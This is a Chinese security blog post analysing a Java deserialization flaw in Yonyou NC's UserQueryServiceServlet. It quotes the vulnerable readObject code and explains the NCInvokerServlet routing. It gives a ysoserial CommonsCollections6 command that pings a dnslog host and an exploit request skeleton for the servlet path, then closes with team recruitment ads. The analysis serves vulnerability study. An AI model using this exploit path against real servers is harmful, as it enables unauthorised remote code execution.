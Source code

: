 #  OA系统漏洞审计之用友NC反序列化 UserQueryServiceServlet  
原创 chobits02  C4安全团队   2025-06-25 06:02  
  
## 前言  
  
想水个文章，不得不说，这个漏洞算是比较简单的了，师傅们如果学过点代码可以一起分析看个乐呵，感谢师傅们的支持  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5ib3aFe4hhtP7M1fg56N1OZyaxT5rh0EWanI3cO7VYruqSmYovEc9U6A/640?wx_fmt=jpeg&from=appmsg "")  
  
要分析漏洞就要进代码，和活要见人死要见尸一个道理  
  
用findstr找关键字，可以看到漏洞jar包名称，jar包在uapim  
的目录下  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5Fu6FeicTZVAt2iaoC2GeiausjpbjVp9nKepHT5lRq1tKMp9m7Ubxtc4dA/640?wx_fmt=png&from=appmsg "")  
  
这个方法的完整路径为nc.bs.pub.im.UserQueryServiceServlet  
  
就像你问你外国女朋友，你全名是啥，有没有中间名之类的，方便找到祖宗十八代  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5KSBibDk9Cf195mdOlJxhk6RByq9RQUNV7bAgULc27V7oNYibYEC2icjrA/640?wx_fmt=png&from=appmsg "")  
  
关键代码如下  
```
protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {  
ObjectInputStream in = new ObjectInputStream((InputStream)request.getInputStream());  
HashMap<Object, Object> params = new HashMap<>();  
ObjectOutputStream oos = new ObjectOutputStream((OutputStream)response.getOutputStream());  
HashMap<Object, Object> result = new HashMap<>();  
try {  
  params = (HashMap<Object, Object>)in.readObject();
```  
  
此处POST请求时，读取了输入流，之后对输入流方法进行in.readObject()  
造成了反序列化漏洞，真的是简单粗暴  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5pH0a9Duic2BDL8gzJfN78vPiaBavqDP3QZV4YU0KEUiaCqpbTicmicxcfAg/640?wx_fmt=png&from=appmsg "")  
  
然后接一段废话，就是这个漏洞到底该怎么请求利用，每个漏洞都有自己的游戏规则：  
  
来到具体的请求URL上面，要调用UserQueryServiceServlet  
类，只要在请求路由加上/~包名称  
+UserQueryServiceServlet  
类的完整路径即可  
  
查看系统的Web.xml  
可以看见请求/service  
和/servlet  
前缀的都经过NCInvokerServlet  
方法处理  
  
  
就是这个不负责任的保安把小区外面的人放进来了  
  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5hiavluz0kia7wCC2KAMnhXPGzLJ23Zc3MlMc9am3O2Nic6Yiana2JaayWA/640?wx_fmt=png&from=appmsg "")  
  
NCInvokerServlet  
方法主要功能是获得url路径后，如果是以/~  
开头，截取第一部分为moduleName  
，然后再截取第二部分为serviceName  
，再根据getServiceObject(moduleName, serviceName)  
实现任意Servlet的调用。  
  
这里包名称是uapim  
，再加上方法的完整路径就能进行请求了，懂了吗师傅们  
  
  
回到漏洞，这里测试使用ysoserial-all.jar  
生成cc6  
的利用链请求dnslog，保存到本地的c.bin文件中  
```
java -jar ysoserial-all.jar CommonsCollections6 "ping xxe.jagvy1.dnslog.cn" > c.bin
```  
  
再读取c.bin文件请求即可  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5P2ZBzPKYETJBBM68Z8ogJR6B0icD4oWyIZwLD6X6v8ibGRWjUkgRfKBw/640?wx_fmt=png&from=appmsg "")  
  
接收到请求记录  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5znnnNfoGCQ5uldgVlHFibYr7O82XYVuV4PSptGKxJmPx45MLFVG3dVA/640?wx_fmt=png&from=appmsg "")  
  
请求利用POC如下  
```
POST /servlet/~uapim/nc.bs.pub.im.UserQueryServiceServlet HTTP/1.1
Host: 
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

反序列化POC
```  
  
  
  
最后总结  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
  
  
